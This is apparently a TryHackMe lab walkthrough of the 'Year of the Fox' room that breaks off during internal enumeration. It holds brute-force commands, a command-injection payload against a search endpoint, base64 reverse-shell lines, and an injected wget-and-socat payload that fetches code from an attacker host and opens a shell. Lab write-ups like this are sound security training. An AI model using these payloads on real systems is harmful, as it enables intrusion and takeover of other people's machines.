

# TryHackMe-Year of The Fox

**Scope:**

- SMB (Server Message Block)
- RPC (Remote Procedure Call)
- SSH (Secure Shell)
- Socat (Socket CAT)

**Keywords:**

- Password Brute Force
- HTTP-Head Method
- Burp Suite
- RCE (Remode Code Execution)
- SSH Port Forwarding
- Shutdown Binary Manipulation

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -oN nmap_result.txt -Pn $target_ip`
- `enum4linux -a $target_ip`
- `enum4linux-ng -A $target_ip`
- `smbclient -L \\yearofthefox.thm`
- `rpcclient -U "" -N $target_ip`
- `nmap --script "safe or smb-enum-*" -p 445 $target_ip`
- `hydra -l rascal -P /usr/share/wordlists/rockyou.txt yearofthefox.thm http-head /`
- `hydra -l fox -P /usr/share/wordlists/rockyou.txt yearofthefox.thm smb`
- `crackmapexec smb yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --content`
- `msfconsole -qx 'use auxiliary/scanner/smb/smb_login'`
- `smbclient \\\\yearofthefox.thm\\yotf -U fox -t 500`
- `crackmapexec smb yearofthefox.thm -u fox -p fuckyou2 --content --pass-pol`
- `xdg-open smb://yearofthefox.thm/`
- `curl --user rascal:chiva http://yearofthefox.thm`
- `msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`
- `echo -n 'bash -i >& /dev/tcp/10.2.37.37/22244 0>&1' | base64`
- `nmap -sV -A -O $target_ip -p 11222 -oN port_11222_result.txt -T4`
- `hydra -l fox -P /usr/share/wordlists/rockyou.txt -f -s 11222 yearofthefox.thm ssh`
- `crackmapexec ssh yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --port 11222 -x 'whoami'`
- `ssh -o MACs=hmac-sha2-256 fox@yearofthefox.thm -p 11222`
- `strings -n 10 shutdown`
- `r2 -AAAA shutdown`

**System Commands:**

- `{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE= | base64 -d | bash; \""}`
- `{"target":"\"; wget -q http://10.2.37.37:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.2.37.37:13232; ecoh \""}`
- `whoami`
- `netstat -tulwn`
- `ss -tulwn`
- `cat /etc/ssh/sshd_config | grep 'Listen’`
- `./socat TCP-LISTEN:11222,fork TCP:127.0.0.1:22`
- `sudo -l`
- `cp /bin/bash /tmp/poweroff`
- `chmod +x /tmp/poweroff`
- `export PATH=/tmp:$PATH`
- `sudo /usr/sbin/shutdown`

### Laboratory Environment

[Year of the Fox](https://tryhackme.com/r/room/yotf)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -oN nmap_result.txt -Pn $target_ip`

```bash
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/10%OT=80%CT=1%CU=34757%PV=Y%DS=4%DC=T%G=Y%TM=66E0
OS:1A4C%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW
OS:7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%
OS:W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508N
OS:NSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=
OS:Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=4
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=
OS:G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -21m48s, deviation: 34m37s, median: -1m49s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-09-10T10:05:09
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-09-10T11:05:09+01:00

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   216.38 ms 10.2.0.1
2   ... 3
4   339.28 ms 10.10.163.252
```

> **HTTP Port Check**
> 

`curl -iLX GET http://yearofthefox.thm`

```bash
HTTP/1.1 401 Unauthorized
Date: Tue, 10 Sep 2024 10:06:23 GMT
Server: Apache/2.4.29 (Ubuntu)
WWW-Authenticate: Basic realm="You want in? Gotta guess the password!"
Content-Length: 463
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at yearofthefox.thm Port 80</address>
</body></html>

```

> **SMB (Server Message Block) Enumeration**
> 

`enum4linux -a $target_ip`

```bash
[REDACTED]

Looking up status of 10.10.163.252
        YEAR-OF-THE-FOX <00> -         B <ACTIVE>  Workstation Service
        YEAR-OF-THE-FOX <03> -         B <ACTIVE>  Messenger Service
        YEAR-OF-THE-FOX <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        YEAROFTHEFOX    <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        YEAROFTHEFOX    <1d> -         B <ACTIVE>  Master Browser
        YEAROFTHEFOX    <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00
  
[REDACTED]
 
 =================================( Share Enumeration on 10.10.163.252 )=================================
                                                                                                                                                  
                                                                                                                                                  
        Sharename       Type      Comment
        ---------       ----      -------
        yotf            Disk      Fox's Stuff -- keep out!
        IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        YEAROFTHEFOX         YEAR-OF-THE-FOX

[+] Attempting to map shares on 10.10.163.252                                                                                                     
                                                                                                                                                  
//10.10.163.252/yotf    Mapping: DENIED Listing: N/A Writing: N/A                                                                                 

[E] Can't understand response:                                                                                                                    
                                                                                                                                                  
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                                        
//10.10.163.252/IPC$    Mapping: N/A Listing: N/A Writing: N/A

[REDACTED]

[+] Enumerating users using SID S-1-5-21-978893743-2663913856-222388731 and logon username '', password ''                                        
                                                                                                                                                  
S-1-5-21-978893743-2663913856-222388731-501 YEAR-OF-THE-FOX\nobody (Local User)                                                                   
S-1-5-21-978893743-2663913856-222388731-513 YEAR-OF-THE-FOX\None (Domain Group)
S-1-5-21-978893743-2663913856-222388731-1000 YEAR-OF-THE-FOX\fox (Local User)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                       
                                                                                                                                                  
S-1-22-1-1000 Unix User\fox (Local User)                                                                                                          
S-1-22-1-1001 Unix User\rascal (Local User)

[REDACTED]
```

`enum4linux-ng -A $target_ip`

```bash

[REDACTED]

 ================================================
|    OS Information via RPC for 10.10.163.252    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.7.6-Ubuntu)                                                                                                               
OS version: '6.1'                                                                                                                                 
OS release: ''                                                                                                                                    
OS build: '0'                                                                                                                                     
Native OS: Windows 6.1                                                                                                                            
Native LAN manager: Samba 4.7.6-Ubuntu                                                                                                            
Platform id: '500'                                                                                                                                
Server type: '0x809a03'                                                                                                                           
Server type string: Sv PrQ Unx NT SNT year-of-the-fox server (Samba, Ubuntu)

[REDACTED]

[+] Found policy:
Domain password information:                                                                                                                      
  Password history length: None                                                                                                                   
  Minimum password length: 5                                                                                                                      
  Maximum password age: 49710 days 6 hours 21 minutes                                                                                             
  Password properties:                                                                                                                            
  - DOMAIN_PASSWORD_COMPLEX: false                                                                                                                
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false                                                                                                         
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false                                                                                                        
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false                                                                                                         
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false                                                                                               
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false                                                                                                 
Domain lockout information:                                                                                                                       
  Lockout observation window: 30 minutes                                                                                                          
  Lockout duration: 30 minutes                                                                                                                    
  Lockout threshold: None                                                                                                                         
Domain logoff information:                                                                                                                        
  Force logoff time: 49710 days 6 hours 21 minutes
  
[REDACTED]
```

`smbclient -L \\yearofthefox.thm`

```bash
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        yotf            Disk      Fox's Stuff -- keep out!
        IPC$            IPC       IPC Service (year-of-the-fox server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        YEAROFTHEFOX         YEAR-OF-THE-FOX
```

`rpcclient -U "" -N $target_ip`

```bash
rpcclient $> srvinfo
        YEAR-OF-THE-FOXWk Sv PrQ Unx NT SNT year-of-the-fox server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

rpcclient $> querydominfo
Domain:         YEAROFTHEFOX
Server:         YEAR-OF-THE-FOX
Comment:        year-of-the-fox server (Samba, Ubuntu)
Total Users:    1
Total Groups:   0
Total Aliases:  0
Sequence No:    1725963455
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1

rpcclient $> enumdomusers
user:[fox] rid:[0x3e8]

rpcclient $> enumdomgroups

rpcclient $> queryuser fox
        User Name   :   fox
        Full Name   :   fox
        Home Drive  :   \\year-of-the-fox\fox
        Dir Drive   :
        Profile Path:   \\year-of-the-fox\fox\profile
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 06 Feb 2036 10:06:39 EST
        Kickoff Time             :      Wed, 06 Feb 2036 10:06:39 EST
        Password last set Time   :      Tue, 10 Sep 2024 06:01:01 EDT
        Password can change Time :      Tue, 10 Sep 2024 06:01:01 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x3e8
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...
        
rpcclient $> enumprivs
found 9 privileges

SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SePrintOperatorPrivilege                0:4097 (0x0:0x1001)
SeAddUsersPrivilege             0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege                 0:4099 (0x0:0x1003)
SeSecurityPrivilege             0:8 (0x0:0x8)

rpcclient $> lsaenumsid
found 6 SIDs

S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544
S-1-1-0

rpcclient $> getusrdompwinfo 0x3e8
    &info: struct samr_PwInfo
        min_password_length      : 0x0005 (5)
        password_properties      : 0x00000000 (0)
               0: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> createdomuser weareroot
result was NT_STATUS_ACCESS_DENIED
```

`nmap --script "safe or smb-enum-*" -p 445 $target_ip`

```bash

[REDACTED]

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-capabilities: 
|   2:0:2: 
|     Distributed File System
|   2:1:0: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:0:0: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:0:2: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3:1:1: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations
| smb-enum-users: 
|   YEAR-OF-THE-FOX\fox (RID: 1000)
|     Full name:   fox
|     Description: 
|_    Flags:       Normal user account
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2024-09-10T12:01:03+01:00
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.163.252\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (year-of-the-fox server (Samba, Ubuntu))
|     Users: 3
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.163.252\yotf: 
|     Type: STYPE_DISKTREE
|     Comment: Fox's Stuff -- keep out!
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\fox\samba
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-10T11:01:03
|_  start_date: N/A
|_clock-skew: mean: -21m49s, deviation: 34m37s, median: -1m51s
| smb-mbenum: 
|   DFS Root
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Master Browser
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Print server
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Server
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Server service
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Unix server
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Windows NT/2000/XP/2003 server
|     YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|   Workstation
|_    YEAR-OF-THE-FOX  0.0  year-of-the-fox server (Samba, Ubuntu)
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-enum-sessions: 
|_  <nobody>
|_ipidseq: All zeros
|_fcrdns: FAIL (No PTR record)
| port-states: 
|   tcp: 
|_    open: 445
| dns-blacklist: 
|   SPAM
|     all.spamrats.com - FAIL
|_    l2.apews.org - FAIL
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
| unusual-port: 
|_  WARNING: this script depends on Nmap's service/version detection (-sV)
| smb-enum-domains: 
|   Builtin
|     Groups: n/a
|     Users: n/a
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|     Account lockout disabled
|   YEAR-OF-THE-FOX
|     Groups: n/a
|     Users: fox
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|_    Account lockout disabled
|_path-mtu: PMTU == 1500

Post-scan script results:
| reverse-index: 
|_  445/tcp: 10.10.163.252
```

> **HTTP Head Password Brute Force**
> 

`hydra -l rascal -P /usr/share/wordlists/rockyou.txt yearofthefox.thm http-head /`

```bash
[REDACTED]

[80][http-head] host: yearofthefox.thm   login: rascal   password: chiva
```

> **SMB (Server Message Block) Password Brute Force**
> 

`hydra -l fox -P /usr/share/wordlists/rockyou.txt yearofthefox.thm smb`

```bash
[REDACTED] - SAME PASSWORD
```

`crackmapexec smb yearofthefox.thm -u fox -p /usr/share/wordlists/rockyou.txt --content`

```bash
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] lan\fox:fuckyou2 
```

`msfconsole -qx 'use auxiliary/scanner/smb/smb_login'`

```bash
msf6 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser fox
SMBUser => fox
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.163.252
RHOSTS => 10.10.163.252
msf6 auxiliary(scanner/smb/smb_login) > run

[REDACTED] - SAME PASSWORD
```

> **SMB (Server Message Block) Share Gathering**
> 

`smbclient \\\\yearofthefox.thm\\yotf -U fox -t 500`

```bash
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jun 19 21:08:50 2020
  ..                                  D        0  Fri Jun 19 21:43:41 2020
  cipher.txt                          N      317  Fri May 29 19:22:12 2020
  creds1.txt                          N      317  Tue Sep 10 06:01:02 2024

                5092992 blocks of size 1024. 2092436 blocks available
smb: \> mget *
Get file cipher.txt? y
getting file \cipher.txt of size 317 as cipher.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
Get file creds1.txt? y
getting file \creds1.txt of size 317 as creds1.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> 

```

`crackmapexec smb yearofthefox.thm -u fox -p fuckyou2 --content --pass-pol`

```bash
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [*] Windows 6.1 (name:YEAR-OF-THE-FOX) (domain:lan) (signing:False) (SMBv1:True)
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] lan\fox:fuckyou2 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  [+] Dumping password info for domain: YEAR-OF-THE-FOX
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Minimum password length: 5
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Password history length: None
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Maximum password age: 37 days 6 hours 21 minutes 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Password Complexity Flags: 000000
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Refuse Password Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Store Cleartext: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Lockout Admins: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password No Clear Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password No Anon Change: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX     Domain Password Complex: 0
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Minimum password age: None
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Reset Account Lockout Counter: 30 minutes 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Locked Account Duration: 30 minutes 
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Account Lockout Threshold: None
SMB         yearofthefox.thm 445    YEAR-OF-THE-FOX  Forced Log off Time: 37 days 6 hours 21 minutes 
```

`xdg-open smb://yearofthefox.thm/`

```bash
[REDACTED] - CLI OPERATIONS
```

`smb://yearofthefox.thm/`

```bash
[REDACTED] - BROWSER OPERATIONS
```

> **Remote Code Execution Check via Web Server**
> 




`curl --user rascal:chiva [http://yearofthefox.thm](http://yearofthefox.thm/)`

```bash
<!DOCTYPE html>
<html>
        <head>
                <title>Year of the Fox</title>
                <meta charset="utf-8">
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <link rel=stylesheet type=text/css href=assets/css/style.css>
                <link rel=stylesheet type=text/css href=assets/css/amatic.css>
                <script src="assets/js/submit.js"></script>
                <script src="assets/js/filter.js"></script>
        </head>
        <body>
                <main>
                        <h1>Rascal's Search System</h1>
                        <input type=text id="target" placeholder="Looking for something?">
                        </form>
                        <button id=search onclick="submit();">Search!</button>
                        <ul id=results style=display:none;></ul>
                </main>
        </body>
</html>
```


`curl -i -s -k -X $'POST' -H $'Host: yearofthefox.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: text/plain;charset=UTF-8' -H $'Content-Length: 22' -H $'Origin: [http://yearofthefox.thm](http://yearofthefox.thm/)' -H $'Authorization: Basic cmFzY2FsOmNoaXZh' -H $'Connection: close' -H $'Referer: [http://yearofthefox.thm/](http://yearofthefox.thm/)' --data-binary $'{\"target\":\"\\\";pwd \\\"\"}' $'[http://yearofthefox.thm/assets/php/search.php](http://yearofthefox.thm/assets/php/search.php)'`

```bash
HTTP/1.1 200 OK
Date: Tue, 10 Sep 2024 11:32:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 33
Connection: close
Content-Type: text/html; charset=UTF-8

["\/var\/www\/html\/assets\/php"] 
```

`curl -i -s -k -X $'POST' -H $'Host: yearofthefox.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Content-Type: text/plain;charset=UTF-8' -H $'Content-Length: 30' -H $'Origin: [http://yearofthefox.thm](http://yearofthefox.thm/)' -H $'Authorization: Basic cmFzY2FsOmNoaXZh' -H $'Connection: close' -H $'Referer: [http://yearofthefox.thm/](http://yearofthefox.thm/)' --data-binary $'{\"target\":\"\\\" ;/usr/bin/id\\n\"}' $'[http://yearofthefox.thm/assets/php/search.php](http://yearofthefox.thm/assets/php/search.php)'`

```bash
HTTP/1.1 200 OK
Date: Tue, 10 Sep 2024 11:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 61
Connection: close
Content-Type: text/html; charset=UTF-8

["uid=33(www-data)","gid=33(www-data)","groups=33(www-data)"]    
```

> **Creating Reverse Shell Payload**
> 

`msfvenom -p cmd/unix/reverse_netcat lhost=10.2.37.37 lport=12244 R`

```bash
Payload size: 93 bytes
mkfifo /tmp/sfqzj; nc 10.2.37.37 12244 0</tmp/sfqzj | /bin/sh >/tmp/sfqzj 2>&1; rm /tmp/sfqzj

bWtmaWZvIC90bXAvc2Zxemo7IG5jIDEwLjIuMzcuMzcgMTIyNDQgMDwvdG1wL3NmcXpqIHwgL2Jpbi9zaCA+L3RtcC9zZnF6aiAyPiYxOyBybSAvdG1wL3NmcXpq
```

`echo -n 'bash -i >& /dev/tcp/10.2.37.37/22244 0>&1' | base64`

```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE=
```

For more payloads:

[Bind Shell - Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)

> **Gathering Reverse Shell via Web Server**
> 

`nc -nlvp 22244`

```bash
listening on [any] 22244 ...
```


**BURP PAYLOAD**:

```bash
{"target":"\";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjM3LjM3LzIyMjQ0IDA+JjE= | base64 -d | bash; \""}
```

```bash
listening on [any] 22244 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.163.252] 52352
bash: cannot set terminal process group (724): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-fox:/var/www/html/assets/php$ whoami
www-data
www-data@year-of-the-fox:/var/www/html/assets/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox:/var/www/html/assets/php$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
www-data@year-of-the-fox:/var/www/html/assets/php$ uname -a
Linux year-of-the-fox 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
www-data@year-of-the-fox:/var/www/html/assets/php$ 
```

> **Gathering Reverse Shell via Socat**
> 

`wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat` 

```bash
socat                                100%[====================================================================>] 366.38K  1.50MB/s    in 0.2s    

2024-09-10 07:53:14 (1.50 MB/s) - ‘socat’ saved [375176/375176]

```

For socat source:

[github.com](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nc -nlvp 13232`

```bash
listening on [any] 13232 ...
```


**BURP PAYLOAD**:

```bash
{"target":"\"; wget -q http://10.2.37.37:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.2.37.37:13232; ecoh \""}
```

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.163.252 - - [10/Sep/2024 07:59:01] "GET /socat HTTP/1.1" 200 -
```

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ whoami
www-data
www-data@year-of-the-fox:/var/www/html/assets/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox:/var/www/html/assets/php$ pwd
/var/www/html/assets/php
www-data@year-of-the-fox:/var/www/html/assets/php$ 

```

> **Inner-Network Enumeration & SSH Port Forwarding**
> 

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ netstat -tulwn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
